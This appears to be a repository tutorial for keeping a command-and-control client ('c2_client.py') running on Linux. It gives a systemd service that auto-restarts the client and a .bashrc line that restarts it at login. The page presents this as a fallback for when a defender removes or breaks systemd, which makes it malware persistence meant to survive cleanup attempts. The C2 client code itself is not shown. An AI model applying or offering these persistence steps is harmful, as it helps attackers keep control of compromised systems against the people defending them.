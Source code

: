 ##  Part 1: Setup the systemd Service

### 🔧 Step-by-Step:

**1. 📁 Move `c2_client.py` to a permanent path:**
Put your script somewhere stable, like:

```bash
/home/kali/.c2/c2_client.py
```

**2. 🔐 Make it executable:**

```bash
chmod +x /home/kali/.c2/c2_client.py
```

**3. 📝 Create a systemd service file:**

```bash
sudo nano /etc/systemd/system/c2client.service
```

**4. ✍️ Add the following content:**

```ini
[Unit]
Description=Kali's C2 Client
After=network.target

[Service]
ExecStart=/usr/bin/python3 /home/kali/.c2/c2_client.py
Restart=always
RestartSec=10
User=kali

[Install]
WantedBy=multi-user.target
```

> 🔐 Replace `kali` with your actual Linux username if it’s different.

**5. 💾 Save & Enable the service:**

```bash
sudo systemctl daemon-reexec
sudo systemctl daemon-reload
sudo systemctl enable c2client
```

**6. ▶️ Start the service:**

```bash
sudo systemctl start c2client
```

**🔍 Test It:**

```bash
sudo systemctl status c2client
```

Look for:

```bash
Active: active (running)
```

Reboot your machine and it should **auto-start**!

---

##  Part 2: Add `.bashrc` Fallback

This acts as a backup in case:

* `systemd` is removed, broken, or interfered with by a defender.

**✍️ Add this to the end of your `~/.bashrc` file:**

```bash
pgrep -f c2_client.py > /dev/null || python3 /home/kali/.c2/c2_client.py &
```

### ✅ What it does:

* Silently checks if `c2_client.py` is running
* If not, starts it in the background when the user logs in
